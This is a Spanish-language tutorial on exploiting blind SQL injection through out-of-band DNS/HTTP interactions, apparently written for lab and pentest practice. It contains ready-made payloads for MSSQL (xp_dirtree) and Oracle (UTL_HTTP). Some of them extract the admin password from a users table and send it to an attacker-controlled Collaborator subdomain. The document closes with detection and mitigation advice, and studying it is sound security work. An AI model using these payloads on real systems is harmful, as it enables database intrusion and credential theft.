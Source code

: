 # Explotación Blind SQLi mediante técnicas Out‑Of‑Band

---



OAST se refiere a técnicas que provocan **interacciones de red salientes** desde el sistema objetivo hacia un servidor controlado por el atacante (DNS, HTTP, SMB, etc.).

Cuando la app ejecuta la consulta vulnerable en un hilo separado (consulta original en un hilo y consulta de cookie en un nuevo hilo) o su respuesta no depende de la ejecución de esa query, las técnicas tradicionales (ver/errores/tiempos) no funcionan. OAST permite detectar y exfiltrar datos mediante la observación de interacciones externas provocadas por la base de datos vulnerable.

Las interacciones más fiables suelen usar **DNS** porque muchas redes permiten peticiones DNS salientes y los resolvers realizarán la consulta por el atacante (o por un servicio como Burp Collaborator) incluso si otros protocolos están bloqueados.

`Nota`: Resolver es el componente que recibe una consulta DNS y se encarga de resolverla paso a paso hasta obtener la respuesta final. Es el intermediario entre tu sistema y los servidores autoritativos que contienen la información real.

---

## Herramientas útiles

* **Burp Collaborator**: servicio que genera subdominios únicos y registra cualquier interacción DNS/HTTP/SMTP/SMB/etc. Burp Professional integra un cliente que automatiza la comprobación. Ideal para labs y pentests.
[Burp Collaborator doc](https://portswigger.net/burp/documentation/desktop/tools/collaborator)
* **Otras opciones públicas/privadas**: Interactsh, Canarytokens, servicios DNS propios. En pruebas autorizadas puedes correr tu propio servidor DNS y recoger solicitudes.

---

## Flujo general de un ataque OAST

1. **Generás un identificador único** (p. ej. `abc123.attacker.com`) usando Collaborator o tu servidor.
2. **Construís un payload** que haga que la base de datos realice una consulta DNS/HTTP hacia ese host cuando se cumpla una condición o para incorporar datos (exfil).
3. **Envíás la petición** vulnerable (por ejemplo con cookie TrackingId inyectado).
4. **Observás en Collaborator** si llega una petición DNS/HTTP con el subdominio generado; si llega, confirmás que la inyección fue ejecutada y, dependiendo del payload, obtendrás datos (por ejemplo el valor de una columna en el subdominio).

---

## Efectividad

* Las resoluciones DNS a menudo son permitidas en egress.
* Las consultas DNS transportan texto en el nombre de dominio, por lo que puedes meter fragmentos de datos (hex/base32) en el subdominio.
* Un solo evento DNS confirma ejecución remota y puede contener información exfiltrada.

---

## Ejemplos de técnicas por SGBD

### 5.1 Microsoft SQL Server (T‑SQL)

Funciones/procs que pueden ejecutar acciones que causan consultas DNS/SMB:

* `xp_dirtree`, `xp_subdirs`, `xp_fileexist`, `xp_cmdshell` (si están habilitadas) pueden provocar accesos a rutas UNC que a su vez generan resoluciones DNS/SMB en el lado de un resolver o controlador.

**Ejemplo (xp_dirtree hacia un host controlado por Collaborator):**

```sql
'; exec master..xp_dirtree '//<UNIQUE_ID>.collaborator.net/a'--
```

* El primer `//` indica una ruta UNC; el servicio de resolución intentará resolver `<UNIQUE_ID>.collaborator.net` y esto aparece en Collaborator.
* `xp_cmdshell` también puede usarse para ejecutar `nslookup` o `ping` hacia el dominio si está habilitado (máximo privilegio requerido).

### Explicación detallada
`exec` - Comando `T-SQL` para ejecutar un procedimiento almacenado o una expresión. En este caso ejecuta el procedimiento extendido `xp_dirtree`.

`master..xp_dirtree`

- `master` — nombre de la base de datos donde existe el procedimiento extendido (en SQL Server los xp_ suelen estar en master).

.. — sintaxis que indica “usar el esquema por defecto” (es equivalente a `master.dbo.xp_dirtree`).

`xp_dirtree` — procedimiento extendido que lista directorios de una ruta UNC. Su efecto: intenta acceder a la ruta de red que le pases, p. ej. \\host\share. Ese intento de acceso al host provoca resoluciones DNS/SMB desde el entorno víctima hacia el dominio del host.

**Exfiltración de datos concatenados (ejemplo):**

```sql
'; DECLARE @p varchar(8000); SET @p=(SELECT TOP 1 password FROM users WHERE username='admin'); EXEC('master..xp_dirtree "//'+@p+'.<UNIQUE>.collaborator.net/a"')--
```

Esto coloca la contraseña en el subdominio y desencadena la resolución.

**Notas:** muchos entornos deshabilitan `xp_*` o `xp_cmdshell` por seguridad; funciona cuando están presentes y la DB tiene permisos.

### MySQL

MySQL no tiene procedimientos extendidos de Windows integrados, pero puedes forzar peticiones HTTP/DNS si el servidor tiene UDFs (user defined functions) o si el servidor hace peticiones fuera de banda mediante funciones específicas (raro en entornos administrados).
Una técnica más común es crear una consulta que invoque funciones XML que a su vez contacten hosts (depende de configuración) o usar herramientas intermedias si tienes comandos.

### PostgreSQL

* Postgres no tiene procedimientos equivalentes a `xp_cmdshell` por defecto, pero extensiones (pwned envs) o funciones `COPY TO PROGRAM` (si habilitado) pueden ejecutar comandos.
* Alternativa: usar funciones `dblink` o `postgres_fdw` si están disponibles y apuntarlas a un servidor que provoque un lookup remoto.

### Oracle

* Oracle puede usar `UTL_HTTP.REQUEST` para hacer peticiones HTTP salientes si el DB tiene permisos y la ACL de red lo permite.
* Otra vía es `UTL_INADDR.get_host_address` (dependiendo de versión/configuración), que puede provocar resolución DNS.

**Ejemplo Oracle (conceptual):**

```sql
' || UTL_HTTP.request('http://<UNIQUE>.collaborator.net/') || '
```

### Resumen práctico

* En Windows SQL Server, `xp_dirtree`/`xp_cmdshell` son las opciones más directas para DNS/SMB OAST.
* En Oracle/Postgres/MySQL, a menudo se requiere privilegios/funciones/extensiones para las peticiones OOB; sin ellos, OAST puede no ser viable.

---

## Formas de exfiltrar datos en la interacción OOB

* **Embed en subdominio:** `password.<HEX>.collaborator.net` (codifica/segmenta datos largos).
* **Hashing / encoding:** conviene hex/base32/base64 o URL‑safe para evitar caracteres prohibidos en nombres DNS y para dividir en chunks.
* **Segmentación:** si el dato es largo, envíalo en varios intentos (por ejemplo: `1-<chunk1>.<UNIQUE>...`, `2-<chunk2>...`).

**Ejemplo encadenado (MSSQL):**

```sql
'; DECLARE @p varchar(8000);SET @p=(SELECT TOP 1 password FROM users WHERE username='admin');EXEC('master..xp_dirtree "//'+CONVERT(varchar(200), HASHBYTES('MD5',@p),2)+'.<UNIQUE>.collaborator.net/a"')--
```

Aquí se envía un hash (reduce tamaño y evita caracteres problemáticos).

---

## Práctica en Burp Collaborator

1. Generá un nuevo payload OAST en Collaborator o usa el cliente integrado en Burp.
2. Inserta el subdominio único en tu payload según SGBD.
3. Envía la petición vulnerable.
4. Pollea Collaborator: si hay una entrada de tipo DNS/HTTP/SMB con tu ID, la inyección fue ejecutada y posiblemente hayas exfiltrado datos.

**Importante:** Collaborator registra peticiones y te muestra la fuente, el tipo y el contenido (cuando aplica).

---

## Limitaciones, detección y contradicciones

* **Privilegios**: muchas técnicas requieren funciones o procedimientos privilegiados (xp_*, utl_http, etc.).
* **Firewalls / egress filtering**: si el entorno bloquea egress DNS o fuerza resolvers internos sin salida, OAST puede fallar.
* **WAF / detección**: patrones UNC `//host/...` o llamadas a `xp_cmdshell` suelen ser detectadas.
* **Tamaño**: los registros DNS limitan la longitud de cada label (~63 bytes) y del dominio total (~253 bytes), por lo que hay que fragmentar datos.
* **Ruido**: muchas resoluciones internas o caching pueden complicar correlación; usar IDs únicos ayuda.

---

## Detección y mitigación

* **Egress filtering**: bloquear/detección de resoluciones DNS no autorizadas y restringir salidas HTTP/SMB.
* **Principle of least privilege**: deshabilitar `xp_cmdshell`, restringir `UTL_HTTP`, evitar extensiones no necesarias.
* **Registro y alerta**: monitorizar patrones inusuales (resoluciones a dominios raros, invocaciones a funciones peligrosas).
* **WAF/IPS tuning**: detectar y bloquear patrones UNC/`xp_*` y payloads con subdominios dinámicos.

---


